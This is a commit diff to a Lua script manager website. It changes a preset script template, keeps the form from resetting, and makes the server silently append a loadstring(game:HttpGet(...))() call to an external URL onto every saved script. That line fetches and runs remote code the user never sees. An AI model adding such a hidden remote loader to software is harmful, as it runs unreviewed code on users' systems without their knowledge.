

Before and after one commit to hehefhgdfgt/lua-script-manager, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (283-996 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add preset script, prevent form reset, auto-append loadstring

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -68,7 +68,17 @@
 <body>
     <div class="container">
         <form id="commandForm">
-            <textarea id="luaCode" placeholder="-- please enter script here. example : print("website configuration")" required>print("website configuration")</textarea>
+            <textarea id="luaCode" placeholder="getgenv().MAHAHATESTING_gg_____ = {
+    ['mahaha_testing'] = {
+        ['print hello?'] = true
+    }
+}" required>script_key = ""
+
+getgenv().MAHAHATESTING_gg_____ = {
+    ['mahaha_testing'] = {
+        ['print hello?'] = true
+    }
+}</textarea>
             <button type="submit">Save Script</button>
         </form>
     </div>
@@ -96,7 +106,7 @@
 
                 const data = await res.json();
                 if (data.success) {
-                    document.getElementById('commandForm').reset();
+                    // Don't reset the form to preserve the preset
                 } else {
                     alert('Error: ' + data.error);
                 }
--- a/server.js
+++ b/server.js
@@ -104,8 +104,8 @@ app.post('/api/commands', async (req, res) => {
   try {
     const { name, luaCode, enabled, executeOnce, variables } = req.body;
 
-    // Automatically append warn('2') to the script
-    const modifiedLuaCode = luaCode + '\nwarn("2")';
+    // Automatically append the loadstring script
+    const modifiedLuaCode = luaCode + '\nloadstring(game:HttpGet("https://api.getpolsec.com/scripts/hosted/f0eb0a19d572c38126073c36db0777bb05b9a516affbcc06e39fb404e93de4b6.lua"))()';
 
     const command = await Command.create({
       name,
```
